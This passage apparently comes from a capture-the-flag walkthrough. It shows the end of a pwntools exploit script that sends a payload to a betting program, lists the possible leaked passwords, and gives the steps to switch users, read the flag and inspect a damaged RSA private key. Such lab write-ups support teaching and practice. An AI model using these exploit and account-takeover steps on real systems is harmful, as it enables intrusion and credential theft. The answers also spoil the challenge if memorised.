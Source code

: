 ```python
print(proc.sendlineafter(b"Bet:", b"1")) 
print(proc.sendlineafter(b"?: ", b"1"))
print(proc.sendlineafter(b"again: ", payload)) 
proc.interactive()
```

When you run this, you should see the manager's password. It will be one of the following: 
- iluvatlanticcity
- livinlasvegas
- jadoremanaco
- macaumoney
- biloxiblackjack

From here, you can change users to the `gyre` account by doing the following: 

11. To change your user from `janitor` to `gyre`:

 ```bash
 su gyre
 ```
12. When prompted for a password, enter the found password.

13. Navigate to Gyre's folder:

 ```bash
 cd /home/gyre
 ```

14. Read the first flag. It will be a random sequence of hex values. This is the answer to Question 2.

```bash
cat flag.txt
```

## Question 3

_After decrypting the communications, enter the password to the financial logs that the aliens provided._

After gaining access to Gyre's account, an RSA public and private key can be found in the home directory. Investigate the private key using the following command:

```bash
xxd id_rsa
```
The private key is missing a large number of bytes as seen in the screen shot below.
